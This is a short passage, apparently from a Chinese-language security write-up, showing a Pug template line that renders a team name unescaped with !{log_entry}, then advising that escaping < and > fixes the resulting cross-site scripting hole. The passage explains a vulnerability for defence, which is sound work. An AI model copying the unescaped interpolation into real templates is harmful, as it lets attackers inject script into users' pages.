                li.list-group-item A new team !{log_entry} has joined // <-- here
```


解決方法是做 js sanitize，最簡單的方法是把 `<` 與 `>` 跳脫掉。

